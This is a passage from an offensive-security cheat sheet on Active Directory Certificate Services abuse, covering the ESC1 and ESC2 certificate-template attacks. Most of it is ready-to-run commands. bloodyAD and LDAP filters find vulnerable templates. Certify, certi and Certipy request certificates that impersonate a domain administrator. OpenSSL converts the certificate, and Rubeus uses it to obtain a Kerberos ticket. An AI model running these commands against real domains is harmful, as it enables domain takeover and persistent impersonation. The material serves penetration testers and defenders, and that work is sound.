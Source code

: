     # or
    python bloodyAD.py -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=lab,DC=local' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))'
    ```
* Use Certify, [Certi](https://github.com/eloypgz/certi) or [Certipy](https://github.com/ly4k/Certipy) to request a Certificate and add an alternative name (user to impersonate)
    ```ps1
    # request certificates for the machine account by executing Certify with the "/machine" argument from an elevated command prompt.
    Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnTemplate /altname:domadmin
    certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
    certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
    ```
* Use OpenSSL and convert the certificate, do not enter a password
    ```ps1
    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    ```
* Move the cert.pfx to the target machine filesystem and request a TGT for the altname user using Rubeus
    ```ps1
    Rubeus.exe asktgt /user:domadmin /certificate:C:\Temp\cert.pfx
    ```

**WARNING**: These certificates will still be usable even if the user or computer resets their password!

**NOTE**: Look for **EDITF_ATTRIBUTESUBJECTALTNAME2**, **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT**, **ManageCA** flags, and NTLM Relay to AD CS HTTP Endpoints.


## ESC2 - Misconfigured Certificate Templates

**Requirements**

* Allows requesters to specify a Subject Alternative Name (SAN) in the CSR as well as allows Any Purpose EKU (2.5.29.37.0)

**Exploitation**

* Find template
  ```ps1
  PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
  # or
  python bloodyAD.py -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=megacorp,DC=local' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))'
  ```
* Request a certificate specifying the `/altname` as a domain admin like in [ESC1](#esc1---misconfigured-certificate-templates).
